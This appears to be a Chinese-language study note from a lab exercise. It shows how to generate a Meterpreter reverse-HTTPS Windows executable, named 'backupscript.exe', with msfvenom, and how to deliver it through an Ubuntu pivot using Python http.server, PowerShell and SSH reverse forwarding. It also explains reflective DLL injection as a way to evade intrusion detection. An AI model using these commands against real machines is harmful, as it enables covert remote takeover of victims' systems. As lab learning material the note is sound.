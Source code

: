 `msfvenom -p --list |grep"windows"` 
形式二：`msfvenom --list payloads | grep "windows"
`
这里就是利用了上面的说明书并且 grep管道调用 grep 筛选 出来windows 的单词，并且查看相关路径信息，
在筛选到 x64 这一步的时候 查看信息得知
此时观察到两个信息细节：
![[Pasted image 20241103163956.png]]
跟 
![[Pasted image 20241103164021.png]]
区别在于第一个是建立shellcode  第二个是直接的反向shell功能 
而反向shell跟shellcode的唯一的区别跟联系是，shellcode 除了可以执行反向shell以外还可以执行其他的特殊功能 
也就是说shellcode比 反向shell的应用更加广泛
![[Pasted image 20241103164600.png]]
这仨的区别是啥：
1首先 custom 是解释说注入的时shellcode  生成的时shellcode而不是 反向本身
2 利用了反射dll 的技术 那么高级反射dll技术有什么神奇之处？
答：高级反射dll的神奇之处在于，他将恶意代码直接注入到内存中而不是磁盘中，如果是磁盘，一些入侵检测装置会直接扫描这个磁盘，从而导致露馅，所以我们采用了一种直接注入到内存的机制，然后将内存信息与进程绑定，这样的话如果我们要关闭此进程的话，其内存会消失，进而恶意代码就会被抹去 消失的无影无踪
3vncinject  的区别是引入了vnc装置，依然采用了同样的反射dll的技术手法，但是他借助了vnc装置去做，vnc可以让我们图形化的操控整个机器 

而我们在这次行动中 目的是https的分析，且需要采用高级dll技术隐藏，的同时建立https隧道，并且能链接到位，
我们选择 2号 ，目标是 从widnow内网靶机搭建一条隧道搭建到ubuntu的服务器上的 8080端口中  
所以 有
````shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= 内网bubnut的外置ip号 -f exe -o backupscript.exe LPORT=8080
````
其中 lhost 指的是 目标的主机号，也就是反向链接的目标的ip号，此场景下的ip号为 中间商 也就是ubuntu的ip号，
-f：![[Pasted image 20241103170756.png]]
以格式进行输入 指定输出位某种格式 内容 指定为exe
查询可知 ![[Pasted image 20241103171152.png]]
然后再选取为exe格式  
![[Pasted image 20241103171234.png]]
因为最终要输出为文件形式 所以使用此命令将其存放为文件形式 
注意指定lhost 的同时也制定lport 
此时 可执行常用的端口号 为 其http 比如 制定端口为8080
此时 输入后成功生成 但是根其提示的反馈信息表示，需要指定一个-a  类型 跟 架构
第三步，攻击机上配置并启动 metasploit 监听
![[Pasted image 20241105170316.png]]
在攻击机上配置监听模块 接受来自ubuntu的反向shell链接请求，开启8000端口应对
第四步：在ubuntu的服务器上利用python3 http.server 对8123这个端口启动监听 ，监听来自内网的window的 靶机的反向shell请求 
![[Pasted image 20241105170447.png]]在0.0.0.0 的本地环回地址中监听来自端口8123 的信息流 
并且这是唯一一个可以打开突破口的机器
此时 我们的目标反向shell已经成功传入到 linux 的中间机内，此时需要在唯一连接到内网靶机的 C机器中 下载 唯一能跟他链接的 ubuntu上面的服务器上的文件  
此时启动powershell并且请求跟中间值ubuntu建立连接 
此时命令如下：
![[Pasted image 20241105171926.png]]
其中 注意 -OutFile 中的 路径 如果涉及到非法路径的话 可以使用 $HOME 环境变量将其修改到 桌面上 此时 文件已经成功转移到 window的桌面上
当转移到window的桌面的时候，这时候，观察网络括朴图，![[Pasted image 20241105175727.png]]
这种形式如上述所示。原理如下 ，首先在攻击机上利用msfvenom 建立攻击的payload 并且传输给ubuntu  以ssh形式传输上去后，在通过ubuntu建立python3 的httpserver的服务器，然后在 window上进行powershell尝试跟 ubuntu中的建立的服务器获取连接，并且 此端口目的仅为将执行设置好的木马传输到最终window的机器上，然后 在利用ssh-R 这个是端口转发机制在中间类，即为 枢纽服务器上建立双向通信通道，并且建立握手机制，并进行操作，
监听行为 ：1 在 攻击机上启动的时本机0.0.0.0 的8000端口监听 
2 在ububntu上为了传输文件而启动的8080端口进行Python服务器搭建
